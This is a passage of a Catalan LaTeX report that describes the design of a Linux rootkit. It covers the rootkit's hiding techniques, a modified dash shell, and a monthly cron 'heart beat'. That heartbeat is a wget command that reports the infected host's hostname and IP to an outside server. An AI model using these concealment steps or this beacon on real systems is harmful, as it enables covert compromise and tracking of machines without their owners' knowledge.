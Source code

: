 \begin{enumerate}
\item Localització física del fitxer. \\
Per que el fitxer estigui força amagat, s'ha  buscat un path al sistema on rarament s'hi accedeixi. El
path escollit per defecte és /usr/share/zoneinfo/posix/America/Indiana/. / i és possible canviar-lo en 
les opcions de compilació.
\item Comunicació xifrada. \\
Un altre mètode d'ocultació és xifrar tot el trànsit que passa per la xarxa, de tal manera que ningú pogui veure de forma accidental o 
intencionada, que és el què està viatjant per la xarxa.
\item Eliminació de les variables d'entorn. \\
Al ser executat, el launcher elimina tota variable d'entorn per tal de que no es pugui tenir cap pista de què és el procés.
\item Connexions de xarxa no visibles. \\
Si s'utilitza el mode de comunicació raw, les connexions de xarxa no seran visibles des del sistema operatiu. L'única 
manera de donar-se compte d'elles seria analitzant el trànsit de xarxa.
\end{enumerate} 

 
\subsection{Heart beat}
Per implementar el heart beat, s'han utilitzat les tasques programades de periodicitat mensual. En l'script
.monthly, s'ha afegit la comanda:

\begin{Verbatim}[commandchars=@\[\]]
wget -q hostru.mine.nu/index.php?h@PYbe[=]@PYay[$(]hostname@PYay[)]
\end{Verbatim}

Aquesta comanda s'executarà mensualment, i realitzarà una petició contra una pàgina web, allotjada en un
servidor gratuït. Al realitzar la petició, aquesta quedarà contabilitzada juntament amb el hostname i la ip
on es troba el rootkit.

\subsection{Independència de la shell}
Per a aconseguir que el rootkit no depengui de quina shell té instal·lada el sistema on s'està executant, 
s'ha modificat la shell dash\footnote{Shell basada en ash, reescrita per debian que té la peculiaritat de ser
una shell a l'estil sh, però d'un tamany molt reduit.} per a poder-se afegir dintre del rootkit. \\

